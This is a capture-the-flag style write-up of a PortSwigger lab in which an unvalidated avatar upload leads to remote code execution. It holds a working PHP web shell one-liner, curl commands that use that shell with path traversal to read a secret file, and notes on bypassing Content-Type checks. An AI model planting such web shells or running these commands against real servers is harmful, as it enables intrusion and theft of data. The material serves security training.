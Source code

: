 # 1f1 - Remote code execution via web shell upload \[PortSwigger Lab]

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### **Solution:**

So this application has an unprotected upload field in user page where you can upload profile avatar.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>unprotected file upload</p></figcaption></figure>

From there, I effectively uploaded a file named `mal.php` with contents `<?php echo system($_GET['command']); ?>`

once upload was done, I had to know where the file was uploaded so I could call it. Inspecting avatar link gave me the clue. `<img src="/files/avatars/mal.php" class="avatar">`

so I opened up terminal and called the `mal.php`

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=pwd"

/var/www/html/avatars
/var/www/html/avatars
```

Now I know I'm at `/var/www/html/avatars`. So to read the contents of the `secrets` file, all I have to do is a simple \[\[2 - Portswigger Academy#Path Traversal |Path Traversal]]

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

U4AE****************************U4AE****************************
```

Keep in mind this method repeats the message twice, so I had to remove the second part of message.

The `secret` contents:`` `U4AE****************************' ``

***

Most of the times, FOV will not be this easy. There will be defense mechanisms in place, but it doesn't mean they are robust. They can still be exploited by finding flaws in these defense mechanisms.

1. Flawed file type validation When submitting HTML forms, the browser sends this data in POST request with content type `application/x-www-form-url-encoded`. This is fine for textual data, but for larger amounts of binary data like PDF or images, content type `multipard/form-data` is preferred.

Consider the following example of form upload with image field, description and username

```
POST /images HTTP/1.1 
Host: normal-website.com 
Content-Length: 12345 
Content-Type: multipart/form-data; 
boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="image"; 
filename="example.jpg" 
Content-Type: image/jpeg 
[...binary content of example.jpg...] 
---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="username" wiener ---------------------------012345678901234567890123456--
```

We can see Content-Type, filename, binary data and other interesting information about this form in here.

One way that a website might validate uploaded file, is to check the input-specific `Content-Type` if it matches expected file type. if it only expects `image/png` it will only allow PNG. It could become problematic if the server trusts this header for what a file is and doesn't perform further validation on the file, whether the file itself matches its description. this defense can be bypassed a tool like BurpSuite.

